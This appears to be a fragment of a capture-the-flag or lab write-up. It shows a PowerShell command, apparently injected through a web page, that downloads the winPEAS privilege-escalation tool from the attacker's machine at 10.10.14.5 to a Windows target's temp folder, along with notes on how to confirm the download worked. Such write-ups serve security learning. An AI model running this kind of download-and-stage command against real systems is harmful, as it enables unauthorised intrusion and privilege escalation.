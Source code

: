 ![image.png](image%2020.png)

```bash
/c powershell iwr [http://10.10.14.5/winPEASEx64_ofs.exe](http://10.10.14.5/winPEASEx64_ofs.exe) -outfile c:\windows\temp\win.exe
```

Downloads **`winPEASx64_ofs.exe`** from my local machine and saves it as **`win.exe`** in the `c:\windows\temp` directory.

![image.png](image%2021.png)

You can tell it is succesfull when the page is slow loading and this pop up on your http server
